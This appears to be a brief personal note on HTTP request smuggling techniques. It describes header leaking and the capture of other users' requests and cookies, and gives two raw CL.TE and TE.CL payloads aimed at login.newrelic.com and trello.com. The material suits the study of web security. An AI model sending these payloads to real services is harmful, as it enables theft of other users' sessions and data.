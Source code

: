 #### CL.0 via expect header

- expect header makes the server to response maturely, stating its good to send the request body.
  
Akamai --> 2025 August

## Methods


##### Two Variations

1. Both attacking and victim requests are from us, so we can smuggle a particular data from front end. --> Type 1
2. Only attacking request is from us and the victim(real user) eats the smuggled request and get poisoned. --> Type 2



#### Leaking internal headers (Type 1)

- finding a page that reflects a parameter in the input value like login forms, if the request attributes contains invalid params. 
*CL.TE*
```http
POST / HTTP/1.1  
Host: login.newrelic.com  
Content-Length: 142  
Transfer-Encoding: chunked  
Transfer-Encoding: x  
  
0  
  
POST /login HTTP/1.1  
Host: login.newrelic.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 100  

login[email]=EOLPOST /login HTTP/1.1  
Host: login.newrelic.com
```


#### Storing other users data into our account (Type 2)

- if we find a request that stores data into our account, we can smuggle the request and make the other user request get appends with it and see the cookies of other users

TE.CL

```http
POST /1/cards HTTP/1.1  
Host: trello.com  
Transfer-Encoding:[tab]chunked  
Content-Length: 4  
  
9f  
PUT /1/members/1234 HTTP/1.1  
Host: trello.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 400  
  
x=x&csrf=1234&username=testzzz&bio=cake
0  
  
GET / HTTP/1.1  
Host: trello.com
```
